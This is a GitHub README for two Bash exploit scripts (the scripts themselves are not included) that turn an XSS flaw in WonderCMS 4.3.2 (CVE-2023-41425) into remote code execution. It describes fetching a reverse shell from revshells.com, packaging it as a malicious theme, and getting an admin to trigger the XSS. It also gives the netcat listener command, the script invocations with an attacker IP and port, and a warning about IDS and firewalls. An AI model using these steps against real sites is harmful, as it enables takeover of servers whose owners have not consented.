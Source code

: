 <a href="https://www.buymeacoffee.com/0xDTC"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a knowledge&emoji=📖&slug=0xDTC&button_colour=FF5F5F&font_colour=ffffff&font_family=Comic&outline_colour=000000&coffee_colour=FFDD00" /></a>

# WonderCMS 4.3.2 XSS to RCE Exploits

## Overview

These scripts exploit an XSS (Cross-Site Scripting) vulnerability in **WonderCMS 4.3.2** to achieve **Remote Code Execution (RCE)**. The XSS payload, when triggered by the admin, automatically installs a reverse shell on the target server by leveraging a crafted malicious theme module. The reverse shell is obtained from **revshells.com** and executed, granting the attacker remote access to the server.

---

## Table of Contents

- [Prerequisites](#prerequisites)
- [Script 1: Automatic Exploit](#script-1-automatic-exploit)
  - [Features](#features)
  - [Usage](#usage)
- [Script 2: Manual Exploit](#script-2-manual-exploit)
  - [Features](#features-1)
  - [Usage](#usage-1)
- [Notes](#notes)
- [License](#license)

---

## Prerequisites

To successfully run either script, the following tools and conditions are required:

1. **Bash Shell**: Both scripts are written for Linux environments using the Bash shell.
2. **netcat (nc)**: Used to listen for the reverse shell connection.
3. **Python3**: A simple Python HTTP server is used to host the XSS payload.
4. **WonderCMS 4.3.2**: The target must be running a vulnerable version of WonderCMS.
5. **Administrator Interaction**: The payload requires an admin to trigger the XSS, which results in the reverse shell execution.
6. **revshells.com**: The reverse shell payload is downloaded dynamically from revshells.com.

---

## Script 1: Automatic Exploit

### POC

![Pasted image 20241010021603](https://github.com/user-attachments/assets/574eec93-47ee-43b6-88f7-ac232c0b341b)

### Features

This version of the exploit automatically checks for an active `nc` listener, downloads the reverse shell, starts the HTTP server, sends the payload, and waits for the admin to trigger the reverse shell.

- **Automatic Reverse Shell Setup**: Downloads a pre-generated reverse shell from revshells.com.
- **XSS Payload Injection**: Injects an XSS payload in the target's contact form.
- **HTTP Server Management**: Automatically starts a Python HTTP server to host the reverse shell payload.
- **nc Listener Check**: Ensures the listener is running before proceeding.
- **Payload Auto-send**: Sends the payload automatically without user interaction.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./AUTO_CVE-2023-41425 <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./AUTO_CVE-2023-41425 http://localhost/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: The script downloads the reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: The reverse shell script is updated with the attacker's IP and port.
3. **Create ZIP Payload**: A ZIP file containing the reverse shell is created.
4. **Craft XSS Payload**: An XSS payload that installs the reverse shell is generated and injected into the vulnerable contact form.
5. **Auto-Start HTTP Server**: The script starts a Python HTTP server to serve the malicious payload.
6. **Auto-Send Payload**: The XSS payload is sent to the admin automatically.

---

## Script 2: Manual Exploit

### POC

![Pasted image 20241010013048](https://github.com/user-attachments/assets/2ace908d-e74f-43a0-8b25-7677953b731f)

Use the exploit provided by the script in Website field...

![Pasted image 20241010013218](https://github.com/user-attachments/assets/aad7312e-4c6b-4238-987e-888424fb7a2a)


### Features

This version requires the user to manually manage the `nc` listener and the XSS payload triggering. It is more suited for scenarios where automatic processes are not desirable.

- **Manual Reverse Shell Setup**: The user is responsible for ensuring the listener is running.
- **Manual XSS Triggering**: The script provides the malicious link to be sent to the admin, but the payload must be triggered manually.
- **HTTP Server Management**: Starts a Python HTTP server to host the XSS payload.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./CVE-2023-41425 <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./CVE-2023-41425 http://localhost/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: Downloads a reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: Updates the reverse shell with the attacker's IP and port.
3. **Create ZIP Payload**: Creates a ZIP file containing the reverse shell.
4. **Craft XSS Payload**: Generates an XSS payload that installs the reverse shell.
5. **Display Malicious Link**: Displays the link that needs to be sent to the admin for triggering.
6. **Start HTTP Server**: Starts a Python HTTP server to host the payload.

---

## Notes

- **Admin Interaction**: Both exploits rely on the WonderCMS admin triggering the XSS payload by visiting the vulnerable page. Once triggered, the reverse shell is established with the attacker's machine.
- **Firewall/IDS/IPS**: Be cautious when running these exploits on environments protected by firewalls or Intrusion Detection Systems (IDS) that might block or alert on suspicious activity.
- **Responsible Disclosure**: If you find that a target is vulnerable, always follow ethical guidelines and report the vulnerability to the appropriate parties.
